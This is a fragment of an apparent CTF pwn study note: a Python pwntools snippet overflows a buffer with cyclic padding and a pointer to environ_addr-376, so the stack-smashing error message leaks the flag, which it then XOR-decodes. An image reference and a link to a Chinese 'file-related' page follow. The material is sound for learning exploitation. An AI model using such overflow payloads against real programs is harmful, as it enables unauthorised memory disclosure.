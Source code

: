 ```python
#pause()
payload = cyclic(offset)+p64(environ_addr-376)
print("addr:")
print(hex(environ_addr-376))
sh.sendline(payload)

sh.recvuntil(b"detected ***:")
flag = sh.recvuntil(b" terminated\n",drop = True)
print(flag)

new_flag = b''

for i in flag:
	new_flag+=bytes([i ^ rand_id])
	
print(new_flag)
sh.interactive()
```

![Untitled](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/Untitled%205.png)

# 文件相关

[文件系统](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F%20d1631c97226d41689b3e5eae530cfe55.md)